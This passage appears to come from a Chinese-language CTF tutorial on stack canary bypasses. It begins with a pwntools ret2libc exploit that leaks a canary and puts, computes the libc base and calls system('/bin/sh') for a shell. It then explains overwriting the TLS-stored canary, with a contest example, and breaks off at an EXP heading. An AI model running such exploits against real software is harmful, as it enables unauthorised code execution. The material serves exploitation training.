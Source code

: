 ```python
payload = 'a'*257 + canary +'a'*12 + p32(puts_plt) + p32(vulc_addr) + p32(puts_got)
p.send('Y\n')
p.recvuntil('Give me some datas:\n\n')
p.send(b64encode(payload))
puts = u32(p.recv()[268:268+4])
success("puts: " + hex(puts))

# libc = ELF('libc.so.6')
libc=ELF('/lib/i386-linux-gnu/libc.so.6')
libc_base = puts - libc.symbols['puts']
sys = libc_base + libc.symbols['system']
binsh = libc_base + libc.search('/bin/sh').next()
success('libc_base: ' + hex(libc_base))

p.send('Y\n')
p.recvuntil('Give me some datas:\n\n')
payload = 'a'*257+canary+ 'a'*12 + p32(sys) + p32(vulc_addr) + p32(binsh)
p.send(b64encode(payload))

p.interactive()
```

### 4.覆盖TLS中储存的canary值

canary是存储在TLS中的，函数返回前会使用这个值进行对比，当栈溢出空间较大时，我们同时覆盖栈上存储的canary和TLS储存的canary实现绕过

**知识点：在gdb里使用 `fsbase` 命令可以找到TLS结构体的地址**

![image-20220201135120817](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-fe955f889c4abd5a9e8727c4c022ba47ce6232b7.png)

#### 例题：

**某高校校赛题**

本题是一个64位程序，题目给了libc版本2.31

![image-20220201134454132](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-8b9936b40e7d3ee6a5ff550f48acd97d5355bf5e.png)

main函数创建了一个子进程——test\_thread:

![image-20220201134651767](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-84567448499b8be15312fa170f204f96c4cb00de.png)

大量栈溢出，但是存在canary：

![image-20220201134725299](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-c35ff883464ecf22c923ffe9f596082134a9b185.png)

##### 思路：

用docker起个libc-2.31的环境，gdb调试查看cannary的值，然后 **用fsbase查找TLS结构体的位置（即FS指针位置）** ，可以取得cannary的保存位置即 **FS:\[28\]** ——**$rbp+2104**，又因为栈溢出字节数很多，可以覆盖到这个位置，然后就可以构造ROP同时覆盖栈上存储的canary和TLS储存的canary实现绕过进行libc的泄露，最后再次回到输入处，再次构造ROP调用execve来getshell，本题system可能由于高版本的问题打不通。

##### EXP:
